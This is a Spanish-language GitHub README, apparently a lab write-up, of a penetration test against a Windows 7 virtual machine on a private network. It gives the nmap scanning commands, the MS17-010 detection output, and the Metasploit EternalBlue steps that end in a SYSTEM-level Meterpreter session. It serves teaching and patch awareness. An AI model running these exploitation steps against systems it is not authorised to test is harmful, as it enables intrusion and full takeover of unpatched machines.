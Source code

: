 
# Laboratorio de Pentesting Metodológico sobre Windows 7 SP1

![Windows 7 Logo](./images/win7-logo.png)

Este repositorio documenta el proceso completo de un pentest realizado a una máquina virtual Windows 7 Professional SP1 (64-bit), desde el reconocimiento inicial hasta la obtención de privilegios de `SYSTEM`.

**Disclaimer:** *Todas las actividades documentadas aquí se realizaron en un entorno de laboratorio controlado y aislado, con máquinas de mi propiedad. Este proyecto tiene fines exclusivamente educativos para estudiar y comprender las fases de un ciberataque y las vulnerabilidades de sistemas sin parches. No intentes replicar estas acciones en sistemas que no te pertenezcan o para los cuales no tengas permiso explícito.*

## Entorno del Laboratorio

Este pentest fue ejecutado utilizando las siguientes máquinas virtuales en la misma red local.

### Máquina Víctima
*   **Sistema Operativo:** Windows 7 Professional SP1 (64-bit)
*   **Dirección IP:** `192.168.1.13`
*   **Configuraciones Clave:** Firewall y Actualizaciones Automáticas desactivadas.

### Máquina de Ataque
La metodología descrita en este informe es agnóstica al sistema operativo del atacante. Las pruebas se realizaron y pueden ser reproducidas desde cualquiera de las siguientes configuraciones:

*   **Configuración 1: Arch Linux**
    *   **Distribución Base:** Arch Linux
    *   **Repositorios Adicionales:** BlackArch
    *   **Shell:** Zsh con Oh My Zsh

*   **Configuración 2: Kali Linux**
    *   **Distribución:** Kali Linux [2025.3]
    *   **Entorno de Escritorio:** [XFCE]

## Índice de Fases

1.  [Fase 1: Reconocimiento](#fase-1-reconocimiento)
2.  [Fase 2: Escaneo y Enumeración](#fase-2-escaneo-y-enumeración)
3.  [Fase 3: Análisis de Vulnerabilidades](#fase-3-análisis-de-vulnerabilidades)
4.  [Fase 4: Explotación](#fase-4-explotación)
5.  [Fase 5: Post-Explotación](#fase-5-post-explotación)
6.  [Lecciones Aprendidas](#lecciones-aprendidas)

---

## Fase 1: Reconocimiento

**Objetivo:** Identificar los hosts activos en la red y localizar la IP de nuestra máquina objetivo.

Se utilizó `netdiscover` para realizar un sondeo ARP en la red local.

```bash
sudo netdiscover -r 192.168.1.0/24
```

**Resultado:** Se identificó al host `192.168.1.13` como nuestro objetivo, confirmado por su dirección MAC asociada a VirtualBox (`PCS Systemtechnik GmbH`).

---

## Fase 2: Escaneo y Enumeración

**Objetivo:** Descubrir los puertos abiertos, los servicios en ejecución y las versiones de software en la máquina objetivo.

Se utilizó `nmap` para un escaneo exhaustivo de todos los puertos TCP.

```bash
sudo nmap -sS -sV -O -p- -oN nmap_scan.txt 192.168.1.13
```
*   `-sS`: SYN Scan (sigiloso)
*   `-sV`: Detección de versiones de servicios
*   `-O`: Detección de Sistema Operativo
*   `-p-`: Escanear todos los 65,535 puertos TCP

**Hallazgos Clave:**
- **Puerto 445/tcp:** Abierto, corriendo el servicio `microsoft-ds` (SMB). **Este se convirtió en el principal vector de ataque potencial.**
- **Puerto 139/tcp:** Abierto, corriendo `netbios-ssn`.
- **Puerto 135/tcp:** Abierto, corriendo `msrpc`.

---

## Fase 3: Análisis de Vulnerabilidades

**Objetivo:** Analizar el servicio SMB en el puerto 445 en busca de vulnerabilidades conocidas.

Se utilizó el Nmap Scripting Engine (NSE) para ejecutar scripts específicos de detección de vulnerabilidades en SMB.

```bash
sudo nmap -p445 --script="smb-vuln*" -oN smb_vuln_scan.txt 192.168.1.13
```

**Resultado Crítico:** El objetivo fue identificado como **VULNERABLE** a **MS17-010 (EternalBlue)**.

```
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     Risk factor: HIGH
```

---

## Fase 4: Explotación

**Objetivo:** Explotar la vulnerabilidad MS17-010 para obtener acceso remoto al sistema.

Se utilizó el **Metasploit Framework** para configurar y lanzar el exploit.

**Secuencia en `msfconsole`:**
```
# 1. Iniciar Metasploit
msfconsole

# 2. Buscar el exploit
msf > search ms17-010

# 3. Seleccionar el exploit EternalBlue
msf > use exploit/windows/smb/ms17_010_eternalblue

# 4. Configurar la IP del objetivo
msf exploit(...) > set RHOSTS 192.168.1.13

# 5. Lanzar el ataque
msf exploit(...) > exploit
```
**Resultado:** Se obtuvo una sesión de Meterpreter exitosa, confirmando el acceso completo al sistema.

![Meterpreter Session](./images/meterpreter-session.png)

---

## Fase 5: Post-Explotación

**Objetivo:** Determinar el nivel de acceso obtenido y demostrar el control sobre el sistema.

El primer comando ejecutado en la sesión de Meterpreter fue para verificar la identidad del usuario.

```
meterpreter > getuid
```

**Resultado:**
```
Server username: NT AUTHORITY\SYSTEM
```
Se obtuvo el máximo nivel de privilegios posible en un sistema Windows, completando el objetivo del pentest.

---

## Lecciones Aprendidas

- La importancia crítica de mantener los sistemas operativos actualizados y parcheados. Una sola vulnerabilidad sin parchear (MS17-010) fue suficiente para comprometer totalmente el sistema.
- La eficacia de una metodología estructurada (Reconocimiento -> Escaneo -> Explotación).
- La diferencia fundamental en la postura de seguridad por defecto entre un sistema antiguo (Windows 7) y uno moderno (Windows 10), como se demostró en los escaneos preliminares.


